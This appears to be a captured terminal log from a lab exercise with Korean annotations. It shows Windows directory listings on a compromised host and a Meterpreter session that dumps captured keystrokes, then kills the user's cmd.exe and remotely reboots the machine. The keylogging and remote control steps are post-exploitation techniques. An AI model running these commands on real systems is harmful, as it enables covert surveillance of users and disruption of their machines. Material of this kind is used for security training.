 ```
C:\Users\Administrator>cd \

C:\>dir
 C 드라이브의 볼륨에는 이름이 없습니다.
 볼륨 일련 번호: F8EC-8281

 C:\ 디렉터리

2025-05-13  오후 02:47    <DIR>          CloudDX
2025-05-09  오후 04:02    <DIR>          inetpub
2025-05-13  오후 12:46            73,802 madal.exe
2019-12-07  오후 06:14    <DIR>          PerfLogs
2025-03-13  오후 01:19    <DIR>          Program Files
2025-03-13  오후 12:56    <DIR>          Program Files (x86)
2025-03-13  오후 12:12    <DIR>          Users
2025-05-09  오후 04:03    <DIR>          Windows
               1개 파일              73,802 바이트
               7개 디렉터리  39,355,318,272 바이트 남음
```

```
C:\>cd CloudDX

C:\CloudDX>dir
 C 드라이브의 볼륨에는 이름이 없습니다.
 볼륨 일련 번호: F8EC-8281

 C:\CloudDX 디렉터리

2025-05-13  오후 02:47    <DIR>          .
2025-05-13  오후 02:47    <DIR>          ..
               0개 파일                   0 바이트
               2개 디렉터리  39,355,256,832 바이트 남음
```

```
meterpreter > keyscan_dump
Dumping captured keystrokes...
<Left Windows><Right Shift>Cl<^H><^H><Right Shift>Cloud<Right Shift>DX<CR>
<Left Windows><CR>
dir<CR>
cd \<CR>
dir<CR>
cd c<^H><Right Shift>Cl<Tab><CR>
dir<CR>
<CR>
<CR>
<CR>
```

```
meterpreter > ps | grep cmd
Filtering on 'cmd'

Process List
============

 PID   PPID  Name     Arch  Session  User                 Path
 ---   ----  ----     ----  -------  ----                 ----
 4912  4592  cmd.exe  x64   1        WIN10\Administrator  C:\Windows\System32\cmd.exe

meterpreter > kill 4912
Killing: 4912          ----------> 윈도우 cmd창 종료됨
meterpreter > reboot   ----------> 윈도우에서 다시 시작함
Rebooting...
```